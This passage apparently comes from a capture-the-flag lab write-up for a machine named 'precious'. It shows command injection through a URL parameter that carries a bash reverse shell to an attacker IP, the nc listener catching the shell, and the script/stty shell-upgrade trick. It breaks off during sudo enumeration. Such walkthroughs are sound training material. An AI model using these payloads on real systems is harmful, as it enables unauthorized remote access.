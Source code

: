 ### Shell

To get a shell, I’ll change the URL to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
    http://10.10.14.6/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"`
    

On sending, I get a connect back at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.189 39606
    bash: cannot set terminal process group (680): Inappropriate ioctl for device
    bash: no job control in this shell
    ruby@precious:/var/www/pdfapp$
    

And I’ll upgrade the shell using the standard `script` and `stty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    ruby@precious:/var/www/pdfapp$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    ruby@precious:/var/www/pdfapp$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    ruby@precious:/var/www/pdfapp$
    

## Shell as henry

### Enumeration

#### sudo

ruby requires a password to run `sudo`:

    
    
    ruby@precious:~$ sudo -l
    
    We trust you have received the usual lecture from the local System
    Administrator. It usually boils down to these three things:
    
        #1) Respect the privacy of others.
        #2) Think before you type.
        #3) With great power comes great responsibility.
    